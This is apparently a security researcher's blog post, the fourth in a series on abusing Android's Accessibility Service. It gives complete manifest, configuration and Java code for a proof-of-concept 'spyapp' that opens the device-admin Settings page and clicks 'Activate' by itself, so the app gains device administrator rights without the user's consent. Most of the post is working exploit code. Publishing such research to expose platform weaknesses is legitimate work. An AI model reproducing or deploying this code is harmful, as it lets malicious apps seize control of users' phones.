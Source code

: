 ## About Android Accessibility Service - Part 4

### [~$ cd ..](../)

### ~$ ls

* [How_an_Android_app_could_escalate_its_privileges.txt](./index)
* [How_an_Android_app_could_escalate_its_privileges_Part2.txt](./part2)
* [How_an_Android_app_could_escalate_its_privileges_Part3.txt](./part3)
* How_an_Android_app_could_escalate_its_privileges_Part4.txt

### ~$ cat How_an_Android_app_could_escalate_its_privileges_Part4.txt

This last part about Android Accessibility Service presents the simplest application, and surely the most powerful one of the four. The goal is here to make the app
an administrator of the device.

_By "administrator", I don't mean "root"_

![admin](admin.png)

The principle remains the same: the malicious app opens the Settings at a specific page, and forces the click on a widget. However, there is no need here to browse through
the settings, and it makes the attack really fast, and even easier!

### Configuration

As the holy documentation says:

>To use the Device Administration API, the app's manifest must include the following:
>* A subclass of DeviceAdminReceiver that includes the following:
>	* The BIND_DEVICE_ADMIN permission.
>	* The ability to respond to the ACTION_DEVICE_ADMIN_ENABLED intent, expressed in the manifest as an intent filter.
>* A declaration of security policies used in metadata. 

I created then a class named `MyAdminDeviceBinder` extending `DeviceAdminReceiver`, and registered the `<receiver>` in the Manifest. And as usual, there is also the custom
accessibility service:

> ```xml
><?xml version="1.0" encoding="utf-8"?>
>	<manifest xmlns:android="http://schemas.android.com/apk/res/android" package="xyz.noname.spyapp">
>		<application
>		...<snipped/>...
>		<service android:name=".services.CustomAccessibilityService"
>			android:permission="android.permission.BIND_ACCESSIBILITY_SERVICE">
>			<intent-filter>
>				<action android:name="android.accessibilityservice.AccessibilityService"/>
>			</intent-filter>
>			<meta-data android:name="android.accessibilityservice"
>				android:resource="@xml/accessibility_config"/>
>		</service>
>		<receiver android:name=".services.MyDeviceAdminReceiver"
>			android:permission="android.permission.BIND_DEVICE_ADMIN">
>			<meta-data android:name="android.app.device_admin"
>				android:resource="@xml/admin_config"/>
>			<intent-filter>
>				<action android:name="android.app.action.DEVICE_ADMIN_ENABLED"/>
>			</intent-filter>
>		</receiver>
>	</application>
></manifest>
> ```

For the file `accessibility_config`, nothing new:

> ```xml
><accessibility-service xmlns:android="http://schemas.android.com/apk/res/android"
>	android:packageNames="com.android.settings, xyz.noname.spyapp"
>	android:accessibilityEventTypes="typeWindowContentChanged"
>	android:accessibilityFeedbackType="feedbackAllMask"
>	android:notificationTimeout="100"
>	android:canRetrieveWindowContent="true"
>	android:accessibilityFlags="flagReportViewIds"/>
> ```

We still listening for the `typeWindowContentChanged` events, on Settings and the malicious app. As usual, I set `canRetrieveWindowContent` to `true`, and
added `flagReportViewIds` in order to make it easier.

In the `admin_config`, I only wrote:

> ```xml
><?xml version="1.0" encoding="utf-8"?>
><device-admin xmlns:android="http://schemas.android.com/apk/res/android">
>	<uses-policies>
>		<!--xxx-->
>	</uses-policies>
></device-admin>
> ```

### Main activity and Receiver

The `DeviceAdminReceiver` contains nothing except `onReceive`, where I only print the `action`. However, it could be very useful for an attacker, to launch to 
attack as soon as the admin permission id granted:

> ```java
>public class MyDeviceAdminReceiver extends DeviceAdminReceiver {
>
>	@Override
>	public void onReceive(Context context, Intent intent) {
>		Log.e("action", intent.getAction());
>		super.onReceive(context, intent);
>	}
>}
> ```

A bunch of callback routines can be used to react depending on the action: `onEnabled`, `onDisable`, `onDisableRequested`, `onLockTaskModeEntering` etc.

In `MainActivity` it's also really simple: we check if the app is already an admin, and if it's not the case and if the Accessibility Service in On, then 
the Settings are open at the right page:

![admin_perm](admin_perm.png)

> ```java
>	@Override
>	protected void onCreate(Bundle savedInstanceState) {
>		super.onCreate(savedInstanceState);
>		ComponentName componentName= new ComponentName(this, MyDeviceAdminReceiver.class);
>		DevicePolicyManager dmp = (DevicePolicyManager) getSystemService(DEVICE_POLICY_SERVICE);
>		if (dmp != null && !dmp.isAdminActive(componentName) && Util.isAccessibilityServiceOn(this)) {
>			Intent intent = new Intent(DevicePolicyManager.ACTION_ADD_DEVICE_ADMIN);
>			intent.putExtra(DevicePolicyManager.EXTRA_DEVICE_ADMIN, componentName);
>			startActivityForResult(intent, 1);
>		}
>		setContentView(R.layout.activity_main);
>	}
> ```

It's normally possible to put an extra string explaining why this status is requested by the app, but it's obviously not the goal in this case.

### The custom Accessibility Service

As the Settings opens at this specifig page, the only thing we have to do is to click on "Activate this device admin app", and to quit. First thing I did was
to get the id of this widget:

> ```java
>private static final String ACTIVATE_ADMIN = "com.android.settings:id/action_button"; 
> ```

and then, I used a boolean `activate` which indicates if the user has landed here because of the malicious app or not. Not need here to recursively scan the page.
I used the routine `findAccessibilityNodeInfosByViewId` which returns a list of widgets having the given id (I then assume that it's the first one).

Then, a click is performed on this widget or on its parent.


> ```java
>private boolean activate;
>
>@Override
>public void onAccessibilityEvent(AccessibilityEvent accessibilityEvent) {
>	if (BuildConfig.APPLICATION_ID.equals(accessibilityEvent.getPackageName().toString())){
>		this.activate = true;
>	}
>	else{
>		if (this.activate){
>			AccessibilityNodeInfo info = accessibilityEvent.getSource();
>			if (info != null){
>				List<AccessibilityNodeInfo> list = info.findAccessibilityNodeInfosByViewId(ACTIVATE_ADMIN);
>				if (list.size() > 0){
>					AccessibilityNodeInfo node = list.get(0);
>					if (node.isClickable()){
>						this.activate = node.performAction(AccessibilityNodeInfo.ACTION_CLICK);
>					}
>					else{
>						AccessibilityNodeInfo parent = node.getParent();
>						while (parent != null && !parent.isClickable()){
>							parent = parent.getParent();
>						}
>						if (parent != null){
>							this.activate = parent.performAction(AccessibilityNodeInfo.ACTION_CLICK);
>						}
>					}
>				}
>			}
>		}
>	}
>}
> ```

Since there are only 2 apps registered in the config file, a simple `if/else` is sufficient. As soon as the button is clicked, the `DeviceAdminReceiver.onReceive` is called
and the malicious code can be triggered.

[![video4_poc](video4.png)](https://youtu.be/2M2pIMuET00)
